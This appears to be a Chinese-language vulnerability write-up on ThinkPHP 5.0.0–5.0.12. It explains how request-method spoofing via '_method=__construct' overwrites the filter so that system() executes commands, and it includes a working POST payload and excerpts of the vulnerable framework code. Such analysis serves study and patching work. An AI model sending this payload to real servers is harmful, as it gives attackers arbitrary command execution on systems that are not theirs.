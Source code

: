 ThinkPHP架构

- https://blog.csdn.net/qq_28137309/article/details/87352796

### 四、MVC架构

MVC是一个设计模式，它强制性的使应用程序的输入、处理和输出分开。使用MVC应用程序被分成三个核心部件：模型（M）、视图（V）、控制器（C），它们各自处理自己的任务。

## 0x01 ThinkPHP与代码执行漏洞

### 一、5.0.0-5.0.12

**影响版本：**5.0.0-5.0.12

**payload：**5.0.0-5.0.12

> POST /5012/public/index.php
>
> _method=__construct&method=*&filter[]=system&s=dir

**官方公告：**https://www.thinkphp.cn/topic/60992.html

**漏洞概述：**ThinkPHP5.0在核心代码中实现了表单请求类型伪装的功能，该功能利用$_POST['_method']变量来传递真实的请求方法，当攻击者设置$_POST['_method']=__construct时，Request类的method方法便会将该类的变量进行覆盖，攻击者利用该方式将filter变量覆盖为system等函数名，当内部进行参数过滤时便会进行执行任意命令。

**代码分析：**5.0.12

- _method=construct：在ThinkPHP中可以使用该变量进行请求类型的伪装。通过该请求可以隐藏真实请求信息，也可以整合现有应用系统。POST请求参数 “ _method=construct ”，将 construct 传给了var_method ，在Request类的method函数中执行后，实现了对Request类的 construct 构造函数的调用；并且将完整的POST参数传给了构造函数。

  ```php
  // 可以设置的请求类型：GET、POST、PUT和DELETE等一系列合法类型。
  <form method="post" action="">
      <input type="text" name="name" value="Hello">
      // 伪装请求类型为PUT
      <input type="hidden" name="_method" value="PUT" >
      <input type="submit" value="提交">
  </form>
  // 伪装请求变量的名字在应用配置文件设置，如下
  // 表单请求类型伪装变量(默认为_method)
  ```

  ```php
  'var_method'  => '_method', //application/config.php
  ```

- method=*&filter[]=system：跟踪Request.php模块中的 __construct函数。该函数中循环取出参数，如果是本类中存在的参数，就取用户传入的值为其赋值。 _method=construct 使得 method 函数调用了 construct 构造函数， 并且将完整的POST参数传递过去。实现了对本类中的 $method和$filter两个全局变量的覆盖。

  ```php
      protected function __construct($options = [])
      {
          foreach ($options as $name => $item) {
              if (property_exists($this, $name)) {
                  $this->$name = $item;
              }
          }
          if (is_null($this->filter)) {
              $this->filter = Config::get('default_filter');
          }
  
          // 保存 php://input
          $this->input = file_get_contents('php://input');
      }
  ```
